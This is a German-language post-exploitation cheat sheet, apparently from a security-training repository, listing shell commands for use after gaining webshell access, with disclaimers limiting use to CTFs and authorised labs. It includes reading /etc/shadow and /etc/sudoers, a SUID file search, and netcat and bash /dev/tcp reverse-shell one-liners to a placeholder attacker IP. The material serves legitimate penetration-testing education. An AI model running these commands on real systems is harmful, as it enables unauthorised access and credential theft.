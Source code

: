 # 🧪 cmdExamplesFromShell.md



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Informationsgewinnung](#informationsgewinnung)
- [Dateisystem & Verzeichnisse](#dateisystem--verzeichnisse)
- [Netzwerk-Analyse](#netzwerk-analyse)
- [Systemdienste & Prozesse](#systemdienste--prozesse)
- [Privilege Escalation vorbereiten](#privilege-escalation-vorbereiten)
- [Kommunikation (Reverse Shells)](#kommunikation-reverse-shells)
- [Dateisystem manipulieren](#dateisystem--verzeichnisse)
- [Befehle debuggen (z. B. bei PHP-Webshell)](#befehle-debuggen-beispiel-in-php-webshell)
- [Empfehlung für defensives Logging (Blue Team)](#empfehlung-für-defensives-logging-blue-team)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Diese Datei enthält nützliche Shell-Befehle, die häufig **nach erfolgreichem Zugriff über eine Webshell** verwendet werden – z. B. durch eine PHP Remote Code Execution (RCE), Datei-Upload oder Command Injection.  
Sie eignet sich hervorragend für **CTFs**, **Penetration Testing Labs** oder als Nachschlagewerk für den **Post-Exploitation-Prozess**.

> ⚠️ **Hinweis:**  
> Die Befehle dienen ausschließlich **Schulungszwecken** oder autorisierten Tests in isolierten, legalen Umgebungen.  
> Jeder unautorisierte Zugriff auf Drittsysteme ist illegal und strafbar.



## Informationsgewinnung

```bash
whoami                  # Aktueller Benutzer
id                      # UID, GID, Gruppen
pwd                     # Aktuelles Verzeichnis
hostname                # Hostname des Systems
uname -a                # Vollständige Systeminformationen
uname -r                # Kernel-Version
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem & Verzeichnisse

```bash
ls -la                  # Aktuellen Verzeichnisinhalt anzeigen
ls -la /root            # Root-Verzeichnis anzeigen (falls zugänglich)
ls -la /home            # Benutzerverzeichnisse anzeigen
ls -la /var/www         # Webserver-Verzeichnis
cat /etc/passwd         # Benutzerliste
cat /etc/shadow         # Passworthashes (nur root)
cat /etc/group          # Gruppeninformationen
cat /etc/sudoers        # Sudo-Rechte überprüfen
```



## Netzwerk-Analyse
```bash
ifconfig                # Netzwerkinterfaces (älter)
ip a                    # Netzwerkinterfaces (neuer)
netstat -an             # Offene Ports
netstat -tulpn          # Dienste mit Ports und PIDs
```



## Systemdienste & Prozesse
```bash
ps aux                  # Laufende Prozesse anzeigen
top                     # Prozesse live
who -a                  # Aktive Benutzer
w                       # Aktive Sessions
```

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Privilege Escalation vorbereiten
```bash
find / -type f -perm -4000 2>/dev/null   # SUID-Dateien finden
sudo -l                                 # Welche Befehle kann ich als root ausführen?
which nc                                # Netcat vorhanden?
which python                            # Python vorhanden?
which perl                              # Perl vorhanden?
```



## Kommunikation (Reverse Shells)
### Netcat Reverse Shell (Linux)
```bash
nc <attacker-ip> 4444 -e /bin/bash
```

### Bash Reverse Shell
```bash
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
```
> ⚠️ Hörer vorbereiten mit:
```bash 
nc -lvnp 4444
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Dateisystem manipulieren

```bash
touch test.txt                # Leere Datei anlegen
echo "test" > test.txt        # Text in Datei schreiben
cat test.txt                  # Datei anzeigen
rm test.txt                   # Datei löschen
```



## Befehle debuggen (Beispiel in PHP-Webshell)
Wenn ein Befehl nicht direkt ausgeführt wird (z. B. bei exec()), kann es helfen, einfache Varianten zu testen:

```bash
whoami;id;uname -a
```

**Oder:**

```bash
echo START && whoami && echo END
```

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Empfehlung für defensives Logging (Blue Team)

```bash
last                       # Letzte Logins
dmesg                      # Kernel-Logs
journalctl -xe             # Systemd-Logs (sofern aktiv)
tail -f /var/log/auth.log  # SSH/Authentifizierungsversuche
```



## Siehe auch:

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_bypass_tricks.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_whell_usage.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_whell_usage.md)



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
